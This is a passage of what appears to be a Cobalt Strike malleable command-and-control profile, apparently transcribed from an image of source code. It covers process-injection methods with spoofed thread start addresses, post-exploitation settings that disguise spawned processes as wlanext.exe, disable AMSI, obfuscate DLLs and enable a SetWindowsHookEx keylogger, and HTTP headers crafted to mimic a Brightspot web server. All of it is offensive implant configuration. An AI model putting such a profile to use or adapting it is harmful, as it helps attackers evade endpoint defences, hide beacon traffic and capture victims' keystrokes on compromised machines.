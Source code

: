     transform-x64 {
        prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; # NOP, NOP!
    }

    # specify how we execute code in the remote process
    execute {
                CreateThread "ntdll.dll!RtlUserThreadStart+0x808";
        NtQueueApcThread-s;
        SetThreadContext;
        CreateRemoteThread;
                CreateRemoteThread "kernel32.dll!LoadLibraryA+0x1000";
        RtlCreateUserThread;
        }
}

post-ex {
    # control the temporary process we spawn to

        set spawnto_x86 "%windir%\\syswow64\\wlanext.exe";
        set spawnto_x64 "%windir%\\sysnative\\wlanext.exe";

    # change the permissions and content of our post-ex DLLs
    set obfuscate "true";

    # pass key function pointers from Beacon to its child jobs
    set smartinject "true";

    # disable AMSI in powerpick, execute-assembly, and psinject
    set amsi_disable "true";

        # control the method used to log keystrokes
        set keylogger "SetWindowsHookEx";
}


http-config {
        set headers "Server, Content-Type, Brightspot-Id, Cache-Control, X-Content-Type-Options, X-Powered-By, Vary, Connection";
        header "Content-Type" "text/html;charset=UTF-8";
        header "Connection" "close";
        header "Brightspot-Id" "00000459-72af-a783-feef2189";
        header "Cache-Control" "max-age=13336504";
        header "Server" "Apache-Coyote/1.1";
        header "X-Content-Type-Options" "nosniff";
        header "X-Powered-By" "Brightspot";
        header "Vary" "Accept-Encoding";
        set trust_x_forwarded_for "false";
